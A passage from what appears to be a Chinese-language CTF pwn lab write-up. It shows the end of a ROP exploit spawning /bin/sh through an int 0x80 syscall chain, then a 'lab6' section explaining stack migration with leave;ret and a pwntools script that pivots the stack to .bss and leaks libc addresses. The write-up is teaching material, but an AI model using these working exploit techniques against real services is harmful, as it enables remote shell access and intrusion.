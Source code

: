 ```python
payload += p32(gadget)
payload += p32(pop_edx_ret)
payload += p32(buf+4)
payload += p32(pop_eax_ret)
payload += "/sh\x00"
payload += p32(gadget)

#write to register
payload += p32(pop_edx_ecx_ebx)
payload += p32(0)
payload += p32(0)
payload += p32(buf)
payload += p32(pop_eax_ret)
payload += p32(0xb)
payload += p32(int_80)

print len(payload)
r.recvuntil(":")
r.sendline(payload)

r.interactive()
```




## lab6

栈迁移的技巧，这个栈迁移还是比较松的，不过他做了一点限制，main函数不能回来用第二次。

栈迁移的理解建议借助纸笔画图来辅助理解，另外就是leave的含义是mov sp,bp; pop bp。一定要清楚。

栈迁移是再写入空间不够的时候，通过leave_ret这类收尾的代码来把ebp和esp改到某个地址固定的位置，通过控制ret的地址和ebp指针向我们指定的位置写值，通常是一段不完整的rop代码，通过不断迁移把rop代码一段一段的写完，最后通过leave_ret到rop代码上面4字节（x86）来实现rop的调用。

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

bin = ELF('migration')
libc = ELF('libc.so')

buf = bin.bss() + 0x700
buf2 = bin.bss() + 0x600
p3ret = 0x08048569
p1ret = 0x0804836d
leave_ret = 0x08048418

cn = process('./migration')

cn.recv()

pay = 'a'*0x28 + p32(buf)
pay += p32(bin.plt['read']) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x100)

cn.send(pay)

pay = p32(buf2)
pay += p32(bin.plt['puts']) + p32(p1ret) + p32(bin.got['puts'])
pay += p32(bin.plt['read']) + p32(leave_ret) + p32(0) + p32(buf2) + p32(0x100)

cn.send(pay)

puts = u32(cn.recv()[:4])
system = puts - libc.symbols['puts'] + libc.symbols['system']
```